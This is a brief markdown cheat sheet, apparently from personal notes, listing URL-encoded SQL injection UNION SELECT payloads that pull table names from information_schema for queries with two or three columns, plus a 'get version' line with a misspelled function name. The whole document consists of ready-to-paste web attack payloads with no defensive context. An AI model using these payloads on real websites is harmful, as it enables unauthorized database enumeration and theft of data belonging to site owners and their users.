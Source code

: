 ### get version
`vesrion()`


## 2 Row
##### (1st column )
'union+select+table_name,null+from+information_schema.tables--
##### (2nd column )
'union+select+null,table_name+from+information_schema.tables--

## 3 row

### table names 
##### (1st column)
'union+select+table_name,null,null+from+information_schema.tables--
##### (2nd column )
'union+select+null,table_name,null+from+information_schema.tables--
##### (3rd column )
'union+select+null,null,table_name+from+information_schema.tables--